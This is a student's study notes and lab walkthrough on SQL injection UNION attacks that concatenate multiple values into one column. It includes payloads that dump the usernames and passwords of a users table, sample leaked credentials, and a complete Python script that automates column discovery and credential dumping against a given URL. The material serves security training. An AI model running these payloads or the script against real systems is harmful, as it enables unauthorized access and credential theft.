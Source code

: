 # Retrieving multiple data within a single column
---
**In the preceding example, suppose instead that the query only returns a single column.**

- You can easily _retrieve multiple values_ together _within_ this _single column by concatenating_ the values together.
- Ideally, _including_ a suitable _separator to_ let you _distinguish the combined values_.
- For example, on Oracle you could submit the input like:
```sql
' UNION SELECT username || '~' || password FROM users--
```

- This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. 
- The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character.
- The results from the query will let you read all of the usernames and passwords, for example:
```r
... 
administrator~s3cure 
wiener~peter 
carlos~montoya 
...
```

>[!note]
>Different databases use different syntax to perform string concatenation. For more details, see the [SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# Lab: SQL injection UNION attack, retrieving multiple values in a single column
---
1. first, I need to determined 'how many columns' for the injection.
2. by using `ORDER BY`, I found its hit at `ORDER BY 3--`
3. meaning, there are `2` columns.
4. then, using the payload `' UNION SELECT NULL,NULL--`.
5. this one columns `' UNION SELECT NULL,'a'--` and check the version `' UNION SELECT NULL,version()--`
6. it says, `PostgreSQL`.
7. using this payload `' UNION SELECT NULL,username || ':' || password FROM users--`
8. for dumping username and password in one columns.

```python
#!/usr/bin/env python3
# sqli-union4
# SQLi UNION retrieving multiple values in a single column.
import requests
import sys
from bs4 import BeautifulSoup

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def get_col(url):
    for i in range(1,100):
        sqli = f"' ORDER BY {i}--"
        req = requests.get(url+sqli, verify=False, proxies=proxies)
        if "Internal Server Error" in req.text:
            return i-1
        i = i+1
    return False

def injectable_col(url, col_number):
    for i in range(1,col_number+1):
        payload_list = ['NULL'] * col_number
        payload_list[i-1] = "'a'"
        sqli = f"' UNION SELECT {','.join(payload_list)}--"
        req = requests.get(url+sqli, verify=False, proxies=proxies)
        if "Internal Server Error" not in req.text:
            return sqli
    return False

def get_version(url, payload):
    payload = payload.replace("'a'", "version()")
    req = requests.get(url+payload, verify=False, proxies=proxies)
    if "Internal Server Error" not in req.text:
        soup = BeautifulSoup(req.text, 'html.parser')
        result = soup.find_all('th')
        return result[-1]
    else:
        return False

def dump_user(url, payload):
    sqli = "username || ':' || password FROM users--"
    payload = payload.replace("'a'",sqli)
    req = requests.get(url+payload, verify=False, proxies=proxies)
    if "Internal Server Error" not in req.text:
        soup = BeautifulSoup(req.text, 'html.parser')
        result = soup.find_all('th')
        return result
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print(f"[-] Usage: {sys.argv[0]} <url>")
        print(f"[-] Example: {sys.argv[0]} http://example.com")
        sys.exit(1)

    print("[-] Figuring out number of columns...")
    num_col = get_col(url)
    if num_col:
        print("[-] The number of columns is [{}]...".format(num_col))
        print("[-] Figuring out injectable columns...")
        inject_col = injectable_col(url, num_col)
        if inject_col:
            print("[-] Found the injectable columns... [{}]".format(inject_col))
            print("[-] Found the version... [{}]".format(get_version(url, inject_col)))
            print("[-] Trying to dump user...")
            dump = dump_user(url, inject_col)
            if dump:
                print("[-] Dumping user...")
                print(dump)
            else:
                print("[-] Can't dump any user!")
        else:
            print("[-] SQLi UNION not successful!")
    else:
        print("[-] SQLi UNION not successful!")
```

#### Official Solution
---
1. Use BurpSuite to intercept and modify the request that sets the product category filter.
2. Determine the [[2. Determining columns required in an UNION attack|number of columns that are being returned by the query]] and [[3. Finding columns to inject in UNION attack| which columns contain text data]].
	- Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the `category` parameter:
	- `' UNION SELECT NULL,'abc'--`
3. Use the following payload to retrieve the contents of the `users` table:
	- `' UNION SELECT NULL,username || '~' || password FROM users--`
4. Verify that the application's response contains usernames and passwords.

